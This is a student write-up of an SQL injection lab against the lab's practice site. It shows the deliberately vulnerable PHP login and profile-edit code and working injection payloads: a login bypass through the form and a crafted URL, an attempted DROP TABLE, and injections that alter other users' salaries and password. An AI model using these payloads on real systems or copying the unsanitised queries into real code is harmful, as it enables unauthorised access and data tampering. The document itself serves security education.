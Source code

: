 # SQL Injection Attack Lab Report

This lab focused on understanding how to exploit a website (http://www.seed-server.com) vulnerable to SQL injection attacks. This websites lets the user login with a username and password, and then displays the user's information. The website also has a page that allows the user to update their profile information. The website is vulnerable to SQL injection attacks in both pages.

## Task 1

In the first task, our goal was to extract information about the user Alice from the database. To achieve that, we used the following query:

```sql
SELECT * FROM CREDENTIAL WHERE NAME = 'Alice';
```

The desired information was successfully obtained:

![Alice Information](../../img/alice_inf.jpeg)

## Task 2.1

In this task, our objective was to inject the SELECT statement used for login to gain access as the admin and retrieve all user information. 
The original PHP code snippet and pseudo code for the authentication logic are the following:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
$result = $conn->query($sql);
```

Pseudo code:
```c
// The following is Pseudo Code
if(id != NULL) {
    if(name=='admin') {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
    Authentication Fails;
}
```

To achieve our goal we input `admin'#` into the username field of the login form, resulting in the following query:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$admin'# and Password='$hashed_pwd'
```


By doing this we successfully bypassed the authentication, revealing all users' information:

![All Users Information](../../img/all_users.jpeg)

This works because the attribute name in the query will acquire the value admin, and the rest of the code will be commented due to the #, this way the query will return all the rows where name is `admin`.


Note that the password can be anything since it is not used due to the username commenting out the rest of the statement.

## Task 2.2

For this task, we replicated the previous objective of gaining unauthorized access, but instead of using the login form, we made an HTTP request with the curl tool:

```http
http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=
```

To do so we had to replace the apostrophe by the value "%27" and the '#' by the value "%23".

The result displayed the same information as before:

![All Users Information Part 1](../../img/all_users1.jpeg)
![All Users Information Part 2](../../img/all_users2.jpeg)

## Task 2.3

In this task, we attempted to execute two SQL statements with a single SQL injection by entering `admin';DROP table credential;#` in the username field. However, this resulted in an error page due to the lack of support for multi-queries in the `mysql::query` function. This precaution is in place to reduce the damage from SQL injection attacks.

![Query Info](../../img/query_info.png)

![Error Page](../../img/error_page.jpeg)

## Task 3.1

# Task: Impersonating Alice to Update Salary

In this task, our objective was to impersonate Alice and inject an UPDATE statement used for editing the users information through the edit form on the server so that we could modify our salary. The edit form on the server included the following fields  NickName, Email, Address, Phone Number, and Password.

![Edit Page](../../img/edit_page.jpeg)

The original PHP code snippet for editing a user is as follows:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname='$input_nickname',
        email='$input_email',
        address='$input_address',
        Password='$hashed_pwd',
        PhoneNumber='$input_phonenumber'
        WHERE ID=$id;";
$conn->query($sql);
```

To achieve our goal, we used  `Alice', salary = 50000 where Name='Alice'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Alice', salary = 50000 where Name='Alice'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```


This injection successfully updated Alice's salary to 50000.

![Alice's Salary](../../img/alice_salary.jpeg)

This injection works because the attribute `nickname` in the query takes on the value `Alice` without altering the original nickname. The salary is set to 5000, the WHERE condition ensures that only the row corresponding to Alice is modified, and the rest of the code is commented out due to the `#`. Consequently, the query effectively updates Alice's salary.

## Task 3.2

Similarly to the previous task, we aimed to change the salary of an user however this time we will change the salary of the user named 'Boby' to 1. 

To achieve this we used  `Boby', salary = 1 WHERE Name='Boby'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', salary = 1 where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's salary to 1 

![Boby Information](../../img/boby_inf.jpeg)

## Task 3.3

In the final task, the goal was to change the password of the user `Boby` to a specified value `godpacheco`. As the passwords were hashed using ***SHA1***, we hashed our chosen password `godpacheco` before inserting it into the database. The hashed password was `e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7`.

To achieve our goal we used  `Boby', Password='e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' WHERE name='Boby'#`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', Password = 'e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's password':

![Boby Password](../../img/boby_password.jpeg)
